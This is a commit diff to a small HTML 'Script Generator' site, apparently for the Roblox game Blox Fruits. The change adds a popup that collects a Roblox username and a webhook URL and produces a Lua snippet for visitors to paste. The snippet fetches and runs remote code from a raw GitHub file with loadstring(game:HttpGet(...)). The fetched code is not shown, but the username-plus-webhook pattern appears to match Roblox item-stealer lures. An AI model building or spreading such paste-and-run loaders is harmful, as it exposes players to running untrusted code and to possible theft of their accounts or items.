

Before and after one commit to Goldded/Voidsite, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Blox Fruits". Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -32,30 +32,65 @@
             background: #ff0080;
             color: white;
             border: none;
-            padding: 15px 30px;
-            font-size: 1.2rem;
+            padding: 10px 20px;
+            font-size: 1rem;
             border-radius: 10px;
             cursor: pointer;
             transition: transform 0.3s, background 0.3s;
+            width: 200px;
         }
         .game-button:hover {
             background: #ff0055;
             transform: scale(1.1);
         }
-        @keyframes fadeIn {
-            from { opacity: 0; transform: translateY(-20px); }
-            to { opacity: 1; transform: translateY(0); }
+        .popup {
+            display: none;
+            position: fixed;
+            top: 50%;
+            left: 50%;
+            transform: translate(-50%, -50%);
+            background: #1e1e2e;
+            padding: 20px;
+            border-radius: 10px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.5);
+        }
+        .popup input {
+            display: block;
+            margin: 10px 0;
+            padding: 5px;
+            width: 90%;
+        }
+        .popup button {
+            background: #ff0080;
+            color: white;
+            border: none;
+            padding: 10px;
+            border-radius: 5px;
+            cursor: pointer;
         }
     </style>
 </head>
 <body>
     <h1>Script Generator</h1>
     <div class="container">
-        <button class="game-button">Pet Simulator 99</button>
-        <button class="game-button">Murder Mystery 2</button>
-        <button class="game-button">Blox Fruits</button>
-        <button class="game-button">Adopt Me</button>
-        <button class="game-button">Pls Donate</button>
-    </div>
+        <button class="game-button" onclick="openPopup('Blox Fruits')">Blox Fruits</button>
+    </div><div id="popup" class="popup">
+    <h2>Enter Details</h2>
+    <input type="text" id="username" placeholder="Enter Roblox Username">
+    <input type="text" id="webhook" placeholder="Enter Webhook URL">
+    <button onclick="generateScript()">Generate Script</button>
+</div>
+
+<script>
+    function openPopup(game) {
+        document.getElementById('popup').style.display = 'block';
+    }
+    function generateScript() {
+        let username = document.getElementById('username').value;
+        let webhook = document.getElementById('webhook').value;
+        let script = `Username = "${username}"
+
+Webhook = "${webhook}" loadstring(game:HttpGet('https://raw.githubusercontent.com/Goldded/Void2/refs/heads/main/Bloxfruits'))()`; alert("Generated Script:\n" + script); document.getElementById('popup').style.display = 'none'; } </script>
+
 </body>
 </html>
```
